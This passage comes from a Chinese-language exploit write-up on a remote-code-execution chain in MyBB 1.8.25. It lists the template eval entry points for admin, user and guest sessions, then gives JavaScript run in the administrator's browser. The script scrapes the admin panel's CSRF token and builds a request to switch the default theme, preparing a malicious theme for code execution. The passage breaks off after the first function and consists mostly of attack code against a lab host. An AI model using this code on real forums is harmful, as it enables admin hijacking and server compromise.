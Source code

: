 **RCE JS EXP：**

修改下 SQL注入的payload。

我们目前要打的是管理员，但mybb中前台和后台的 Cookie 是分开验证，我们要考虑如下情况：
1. 管理员前后台都登陆了
1. 管理员前台登陆普通用户，后台登陆管理员
1. 管理员前面没登陆，后台登陆管理员
三种情况对应着不一样的 `eval` 入口。

**管理员**的第一个 eval 调用点为 **header_welcomeblock_member_admin**

**普通用户**的第一个 eval 调用点为 **header_welcomeblock_member_user**

**匿名账户**的第一个 eval 调用点为 header_welcomeblock_guest_login_modal*

```
var bashurl = 'http://192.168.92.164/mybb/mybb-mybb_1825'
var my_post_key = ''
var source_theme = '';
var evil_theme_set = ''
var evil_theme_tid = ''

function sleep (time) `{`
  return new Promise((resolve) =&gt; setTimeout(resolve, time));
`}`

function get_themes()`{`
    var url = bashurl + '/admin/index.php?module=style'

    var xhr=new XMLHttpRequest();
    xhr.open('GET',url,false);
    xhr.onreadystatechange=function()`{`
        if(xhr.readyState==4)`{`
            if(xhr.status==200 || xhr.status==304)`{`
                var res = xhr.responseText;

                var parser = new DOMParser();
                var doc3 = parser.parseFromString(res, "text/html");
                var source_theme_tid = '';

                imgs = doc3.getElementsByTagName("img");

                for(var i=0;i&lt;imgs.length;i++)`{`
                    if(imgs[i].alt == 'Default Theme')`{`
                        source_theme_tid = imgs[i]
                        break
                    `}`
                `}`

                source_theme_tid = source_theme_tid.parentNode.nextElementSibling.firstElementChild.firstElementChild
                source_theme_tid = source_theme_tid.href.split('tid=')[1]

                //获取 csrf token
                var postKey = doc3.getElementById('welcome').lastElementChild
                my_post_key = postKey.href.split('my_post_key=')[1]

                //还原默认主题的接口 url
                source_theme = bashurl + '/admin/index.php?module=style-themes&amp;action=set_default&amp;tid=' + source_theme_tid + '&amp;my_post_key=' + my_post_key
            `}`
        `}`
    `}`
    xhr.send();
`}`
```